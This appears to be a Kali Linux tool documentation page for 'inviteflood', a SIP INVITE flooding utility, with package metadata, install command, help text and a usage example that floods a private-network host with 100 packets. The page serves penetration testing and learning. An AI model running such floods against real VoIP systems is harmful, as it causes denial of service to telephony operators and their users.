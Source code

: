 ```yaml
---
Title: inviteflood
Homepage: http://www.hackingvoip.com/sec_tools.html
Repository: http://git.kali.org/gitweb/?p=packages/inviteflood.git;a=summary
Architectures: any
Version: 2.0-1kali0
Metapackages: kali-linux-everything kali-linux-large kali-tools-voip kali-tools-vulnerability 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### inviteflood
 
  A tool to perform SIP/SDP INVITE message flooding over
  UDP/IP. It was tested on a Linux Red Hat Fedora Core 4
  platform (Pentium IV, 2.5 GHz), but it is expected this
  tool will successfully build and execute on a variety of
  Linux distributions.
 
 **Installed size:** `50 KB`  
 **How to install:** `sudo apt install inviteflood`  
 
 {{< spoiler "Dependencies:" >}}
 * libc6 
 * libnet1 
 {{< /spoiler >}}
 
 ##### inviteflood
 
 
 ```
 root@kali:~# inviteflood -h
 
 inviteflood - Version 2.0
               June 09, 2006
  Usage:
  Mandatory -
 	interface (e.g. eth0)
 	target user (e.g. "" or john.doe or 5000 or "1+210-555-1212")
 	target domain (e.g. enterprise.com or an IPv4 address)
 	IPv4 addr of flood target (ddd.ddd.ddd.ddd)
 	flood stage (i.e. number of packets)
  Optional -
 	-a flood tool "From:" alias (e.g. jane.doe)
 	-i IPv4 source IP address [default is IP address of interface]
 	-S srcPort  (0 - 65535) [default is well-known discard port 9]
 	-D destPort (0 - 65535) [default is well-known SIP port 5060]
 	-l lineString line used by SNOM [default is blank]
 	-s sleep time btwn INVITE msgs (usec)
 	-h help - print this usage
 	-v verbose output mode
 
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## inviteflood Usage Example

Using the eth0 interface (`eth0`) and the provided user (`5000`), flood the target domain (`example.local`) and flood target (`192.168.1.5`) using 100 packets (`100`):

```
root@kali:~# inviteflood eth0 5000 example.local 192.168.1.5 100

inviteflood - Version 2.0
              June 09, 2006

source IPv4 addr:port   = 192.168.1.202:9
dest   IPv4 addr:port   = 192.168.1.5:5060
targeted UA             = 5000@192.168.1.1

Flooding destination with 100 packets
sent: 100
```
